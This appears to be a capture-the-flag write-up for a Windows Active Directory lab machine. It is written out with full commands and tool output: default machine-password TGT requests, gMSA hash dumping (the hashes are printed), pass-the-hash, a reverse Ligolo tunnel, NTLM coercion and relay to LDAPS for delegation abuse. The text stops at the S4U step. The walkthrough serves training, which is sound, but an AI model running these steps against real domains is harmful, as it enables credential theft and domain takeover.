# Pirate

```text
Difficulty: Hard  
OS: Windows  
Services: Kerberos, LDAP/LDAPS, SMB, WinRM
```

## Summary of Attack Chain

| Step | User / Access         | Technique Used                            | Result                                                                                                         |
| :--: | :-------------------- | :---------------------------------------- | :------------------------------------------------------------------------------------------------------------- |
|   1  | N/A (External)        | **Active Directory Enumeration**          | Identified `MS01$` as a member of **Pre-Windows 2000 Compatible Access** via `adscan` and `bloodhound-python`. |
|   2  | MS01$                 | **AS-REQ (Default Machine Password)**     | Requested a TGT for `MS01$` using the machine name (`ms01`) as its password.                                   |
|   3  | MS01$                 | **LDAP Read (gMSA Extraction)**           | Dumped `gMSA_ADFS_prod$` NT hash by reading `msDS-ManagedPassword` through legacy group privileges.            |
|   4  | gMSA_ADFS_prod$       | **Pass-the-Hash (WinRM)**                 | Authenticated to `DC01` using **Evil-WinRM**, establishing initial foothold.                                   |
|   5  | gMSA_ADFS_prod$       | **Network Pivoting**                      | Created Layer-3 tunnel to internal subnet `192.168.100.0/24` using **Ligolo-ng**.                              |
|   6  | gMSA_ADFS_prod$       | **NTLM Coercion & Relaying**              | Coerced `WEB01$` authentication and relayed NTLM to `DC01` over LDAPS to perform RBCD attack.                  |
|   7  | gMSA_ADFS_prod$       | **RBCD & S4U Impersonation**              | Injected rogue computer `VYSHKGDW$` and forged service ticket for `Administrator` on `WEB01`.                  |
|   8  | Administrator (WEB01) | **Lateral Movement (User Flag)**          | Used **Impacket** `psexec.py` to gain admin shell on `WEB01` and retrieve **user.txt**.                        |
|   9  | Administrator (WEB01) | **Credential Harvesting**                 | Dumped local secrets to recover plaintext password for `a.white`.                                              |
|  10  | a.white               | **ACL Tiering Violation**                 | Abused `ForceChangePassword` rights to overwrite password for `a.white_adm`.                                   |
|  11  | a.white_adm           | **SPN Injection**                         | Removed `HTTP` SPN from `WEB01$` and injected into `DC01$`, hijacking constrained delegation path.             |
|  12  | a.white_adm           | **Kerberos Constrained Delegation (S4U)** | Requested forged `CIFS` ticket to `DC01` impersonating Domain Admin.                                           |
|  13  | Administrator (DC01)  | **Pass-the-Ticket (Root Flag)**           | Used forged ticket with `psexec.py` to access `DC01` and retrieve **root.txt**.                                |





# Offensive Operations

## Reconnaissance & Initial Foothold


### Environment & Kerberos Setup

```bash
nmap --privileged -sC -sV -oA nmap_results 10.129.85.179
```

[Nmap Results](https://raw.githubusercontent.com/0x0z0n/Research/refs/heads/main/posts/Pirate/nmap_results.nmap "Results")

* **Target Identity:** The target is a Windows Server functioning as the Domain Controller (`DC01`) for the `pirate.htb` domain.
* **Web Attack Surface:** Port 80 is hosting Microsoft IIS 10.0; while currently showing a default page, it serves as a primary vector for directory enumeration and web exploitation.
* **Active Directory Posture:** Standard AD ports (Kerberos, LDAP, WinRM) are open, providing clear avenues for domain enumeration, Kerberoasting/AS-REP roasting, and eventual remote access.
* **Security Constraints:** SMB on port 445 has message signing *enabled and required*, which completely mitigates standard SMB relay attacks against this host.
* **Infrastructure Clues:** The presence of port 2179 (`vmrdp`) is notable, suggesting this server may be utilizing Hyper-V or similar virtual machine remote desktop services.

Before firing a single exploit, setting up the local environment is critical when dealing with Active Directory. Kerberos authentication is notoriously strict about two things: **DNS resolution** and **time synchronization**.

If your attack machine cannot resolve the Domain Controller's Fully Qualified Domain Name (FQDN) or if your system clock is skewed by more than 5 minutes from the DC, the Key Distribution Center (KDC) will reject your ticket requests.


To ensure stable communication, we map the network topology in `/etc/hosts` and explicitly define the realm in our Kerberos configuration file (`/etc/krb5.conf`).

```text
# /etc/hosts
10.129.0.0    DC01.pirate.htb pirate.htb MS01.pirate.htb
192.168.100.2 WEB01.pirate.htb
```




```text
[libdefaults]
    default_realm = PIRATE.HTB
    dns_lookup_realm = false
    dns_lookup_kdc = false

[realms]
    PIRATE.HTB = {
        kdc = 10.129.4.86
        admin_server = 10.129.4.86
    }

[domain_realm]
    .pirate.htb = PIRATE.HTB
    pirate.htb = PIRATE.HTB
```




### Active Directory Enumeration

With the networking foundation laid, we begin enumerating the directory. we perform LDAP queries to map out the user objects and groups within `PIRATE.HTB`.



[users.txt](https://raw.githubusercontent.com/0x0z0n/Research/refs/heads/main/posts/Pirate/users.txt "Results")

```bash
bloodhound-python -u 'pentest' -p 'p3nt3st2025!&' -d pirate.htb -dc DC01.pirate.htb -c All
```



















**Key Discoveries:**

1. **High-Value Targets:** We identify a Domain Admin (`Administrator`) and a user configured for Constrained Delegation (`a.white_adm`).
2. **Service Accounts:** The presence of `gMSA_ADFS_prod$` and `gMSA_ADCS_prod$` indicates the use of Group Managed Service Accounts. These are highly privileged service accounts where Active Directory automatically manages complex, rotating passwords.
3. **The Critical Flaw:** The machine account `MS01$` is a member of the legacy **"Pre-Windows 2000 Compatible Access"** group.



[All_graph_bh.json](https://raw.githubusercontent.com/0x0z0n/Research/refs/heads/main/posts/Pirate/All-graph_bh.json "Results")

### The Vulnerability: Legacy Groups & Default Passwords

The initial foothold relies on a dangerous, yet common, combination of two separate misconfigurations:

1. **The Legacy Access Group:** The "Pre-Windows 2000 Compatible Access" group is a relic from the NT 4.0 era. Because older systems didn't understand modern AD granular permissions, this group was granted vast read access across the entire directory-including the ability to read the `msDS-ManagedPassword` attribute of gMSAs.
2. **Improper Machine Provisioning:** When a computer account is created in AD but the machine never successfully joins the domain to rotate its credentials, the password defaults to the machine's name (lowercase, without the trailing `$`).

Because `MS01$` was improperly provisioned, its password is `ms01`. Because it sits in the Pre-Win2000 group, it holds the keys to read the directory's deepest secrets.

### Exploitation: gMSA Password Extraction

We start by requesting a Kerberos Ticket Granting Ticket (TGT) for the `MS01$` account using its default password. We use `faketime` to ensure the timestamp matches the target's strict Kerberos requirements.

```bash
sudo ntpdate 10.129.217.8

impacket-getTGT 'PIRATE.HTB/MS01$:ms01'
Impacket v0.13.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Saving ticket in MS01$.ccache


# Export the resulting ticket into our session
export KRB5CCNAME=MS01\$.ccache
```

[MS01.ccache](https://raw.githubusercontent.com/0x0z0n/Research/refs/heads/main/posts/Pirate/MS01$.ccache "Results")

Now that we are authenticated as `MS01$` and holding a valid ticket, we can abuse the read privileges granted by the Pre-Windows 2000 group. We target the `msDS-ManagedPassword` attribute of the gMSA accounts using `gMSADumper.py`. Active Directory will readily hand over the blob, which the script calculates into an NT hash.

```bash
python3 gMSADumper.py -d pirate.htb -l DC01.pirate.htb -k
Users or groups who can read password for gMSA_ADCS_prod$:
 > Domain Secure Servers
gMSA_ADCS_prod$:::304106f739822ea2ad8ebe23f802d078
gMSA_ADCS_prod$:aes256-cts-hmac-sha1-96:4b663e093cdb8283541c5c40068022668fbd92681eb4433d2ec0ccfc0607298d
gMSA_ADCS_prod$:aes128-cts-hmac-sha1-96:3727b5300502b7a4a8de0f429299b942
Users or groups who can read password for gMSA_ADFS_prod$:
 > Domain Secure Servers
gMSA_ADFS_prod$:::8126756fb2e69697bfcb04816e685839
gMSA_ADFS_prod$:aes256-cts-hmac-sha1-96:8c689efdec9f1b8554b1eb1b631ea311db74453427d1273369e6268bcd742e6c
gMSA_ADFS_prod$:aes128-cts-hmac-sha1-96:74ec76de3c9bf2e77d42ecc9aaa1096c
```




### Establishing the Foothold

We now possess the NT hash for `gMSA_ADFS_prod$`. Since this is a highly privileged service account, we can use a Pass-the-Hash (PtH) attack to bypass plaintext password requirements and gain an interactive shell directly on the Domain Controller.

```bash
evil-winrm -i DC01.pirate.htb -u 'gMSA_ADFS_prod$' -H '8126756fb2e69697bfcb04816e685839'
```


We are in. The initial external boundary has been breached.


## Internal Routing & Network Pivoting

With administrative access over `gMSA_ADFS_prod$` on the Domain Controller (`DC01`), our next target is the internal web server, `WEB01` (192.168.100.2). However, `WEB01` sits on an internal, segmented subnet that is not directly routable from our external attack machine.

To interact with `WEB01` using complex, multi-protocol tools (like `ntlmrelayx` and `coercer`), traditional SOCKS proxies (like Proxychains) often fall short because they struggle with UDP traffic and raw ICMP packets.

### The Solution: Ligolo-ng

Ligolo-ng solves this by creating a highly stable, completely transparent tunnel using a localized `tun` interface. It routes packets at the network layer rather than proxying individual TCP connections.

**1. Infrastructure Setup**
We start the Ligolo proxy server on our attack machine, listening on port 443.

```bash
# On the attack host
./proxy -selfcert -laddr 0.0.0.0:443

```

Next, we transfer the compiled Ligolo Windows agent to our `DC01` session and execute it, pointing it back to our attack machine to establish the reverse tunnel.

```powershell
# On DC01 (via Evil-WinRM)
.\agent.exe -connect 10.10.16.36:443 -ignore-cert
```



**2. Interface Routing**
Once the agent connects, we jump into the Ligolo proxy console and `start` the session. On our attack machine, we configure the local routing table to push all traffic destined for the `192.168.100.0/24` subnet through the new `ligolo` interface.

```bash
# On the attack host
sudo ip tuntap add user $(whoami) mode tun ligolo
sudo ip link set ligolo up
sudo ip route add 192.168.100.0/24 dev ligolo
sudo ip addr add 192.168.100.50/24 dev ligolo
```



We now have direct, native-feeling network access to `WEB01`.

```bash
sudo nmap -sS -Pn -n 192.168.100.2 > inter
```

[Pivot](https://raw.githubusercontent.com/0x0z0n/Research/refs/heads/main/posts/Pirate/inter "Results")

## The User Flag (NTLM Relaying & RBCD)

Gaining access to `WEB01` requires chaining together two distinct Active Directory exploitation concepts: NTLM Coercion and Resource-Based Constrained Delegation (RBCD).

### The Vulnerability: Unsigned LDAP & Delegation Control

Active Directory computer objects have an attribute called `msDS-AllowedToActOnBehalfOfOtherIdentity`. If an attacker can write to this attribute on a target machine, they can explicitly authorize a rogue account to delegate (impersonate) *any* user to that target machine.

Because `WEB01` is a machine account, it inherently possesses the rights to modify its own AD object properties. If we can force `WEB01` to authenticate to us, we can relay that authentication to the Domain Controller and modify its RBCD attribute on its behalf. This relies on the Domain Controller not enforcing strict LDAP signing, allowing us to relay the NTLM authentication over LDAPS.

### Step 1: Setting up the Relay

We spin up `ntlmrelayx.py`, targeting the Domain Controller's LDAPS service (port 636). The `--delegate-access` flag instructs the tool to automatically abuse the RBCD attribute if the relay is successful, effectively creating a new machine account and delegating it control over the victim.

```bash
┌──(myenv)(z0n㉿0x0z0n)-[~/z0n/z0n/posts/Pirate]
└─$ sudo $(which ntlmrelayx.py) -t ldaps://10.129.217.8 --delegate-access --remove-mic -smb2support -ip 0.0.0.0
[sudo] password for z0n: 
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Protocol Client SMTP loaded..
[*] Protocol Client LDAPS loaded..
[*] Protocol Client LDAP loaded..
[*] Protocol Client HTTP loaded..
[*] Protocol Client HTTPS loaded..
[*] Protocol Client IMAPS loaded..
[*] Protocol Client IMAP loaded..
[*] Protocol Client DCSYNC loaded..
[*] Protocol Client SMB loaded..
[*] Protocol Client RPC loaded..
[*] Protocol Client MSSQL loaded..
[*] Running in relay mode to single host
[*] Setting up SMB Server
[*] Setting up HTTP Server on port 80
[*] Setting up WCF Server
[*] Setting up RAW Server on port 6666

[*] Servers started, waiting for connections
[*] SMBD-Thread-5 (process_request_thread): Received connection from 10.129.217.8, attacking target ldaps://10.129.217.8
[*] Authenticating against ldaps://10.129.217.8 as PIRATE/WEB01$ SUCCEED
[*] Enumerating relayed user's privileges. This may take a while on large domains
[*] SMBD-Thread-7 (process_request_thread): Connection from 10.129.217.8 controlled, but there are no more targets left!
[*] SMBD-Thread-8 (process_request_thread): Connection from 10.129.217.8 controlled, but there are no more targets left!
[*] Attempting to create computer in: CN=Computers,DC=pirate,DC=htb
[*] Adding new computer with username: BWLQRATL$ and password: +wUYnh>lh.f7lkX result: OK
[*] Delegation rights modified succesfully!
[*] BWLQRATL$ can now impersonate users on WEB01$ via S4U2Proxy

```

### Step 2: Forcing Authentication (Coercion)

With the trap set, we need `WEB01` to step into it. Using our compromised `gMSA_ADFS_prod$` credentials, we use the `coercer` tool. This triggers specific RPC calls (like MS-RPRN or MS-EFSR) on `WEB01`, forcing its machine account (`WEB01$`) to attempt an SMB authentication back to our attack machine's Ligolo IP.

```bash
coercer coerce -l 10.10.16.36 -t 192.168.100.2 -d pirate.htb -u 'gMSA_ADFS_prod$' --hashes :8126756fb2e69697bfcb04816e685839 --always-continue
       ______
      / ____/___  ___  _____________  _____
     / /   / __ \/ _ \/ ___/ ___/ _ \/ ___/
    / /___/ /_/ /  __/ /  / /__/  __/ /      v2.4.3
    \____/\____/\___/_/   \___/\___/_/       by @podalirius_

[info] Starting coerce mode
[info] Scanning target 192.168.100.2
[*] DCERPC portmapper discovered ports: 49664,49665,49666,49667,49668,49702,49715
[+] DCERPC port '49667' is accessible!
   [+] Successful bind to interface (12345678-1234-ABCD-EF00-0123456789AB, 1.0)!
      [!] (NO_AUTH_RECEIVED) MS-RPRN──>RpcRemoteFindFirstPrinterChangeNotification(pszLocalMachine='\\10.10.16.36\x00') 
      [!] (RPC_S_INVALID_NET_ADDR) MS-RPRN──>RpcRemoteFindFirstPrinterChangeNotificationEx(pszLocalMachine='\\10.10.16.36\x00') 
[+] SMB named pipe '\PIPE\eventlog' is accessible!
   [+] Successful bind to interface (82273fdc-e32a-18c3-3f78-827929dc23ea, 0.0)!
      [!] (NO_AUTH_RECEIVED) MS-EVEN──>ElfrOpenBELW(BackupFileName='\??\UNC\10.10.16.36\dr6Bw7uL\aa') 
[+] SMB named pipe '\PIPE\lsarpc' is accessible!
   [+] Successful bind to interface (c681d488-d850-11d0-8c52-00c04fd90f7e, 1.0)!

```

`ntlmrelayx` intercepts this inbound SMB connection and successfully relays it to `DC01` via LDAPS.



**Result:** The relay is successful. `ntlmrelayx` uses `WEB01$`'s relayed privileges to write to its own `msDS-AllowedToActOnBehalfOfOtherIdentity` attribute, inserting a newly created attacker-controlled machine account:

```text
[*] Adding new computer with username: BWLQRATL$ and password: +wUYnh>lh.f7lkX result: OK
```

### Step 3: Weaponizing RBCD (Impersonation)

We now control `VYSHKGDW$`, which is explicitly trusted by `WEB01` for delegation. Using Impacket's `getST.py`, we execute the Service-for-User (S4U) Kerberos extensions.

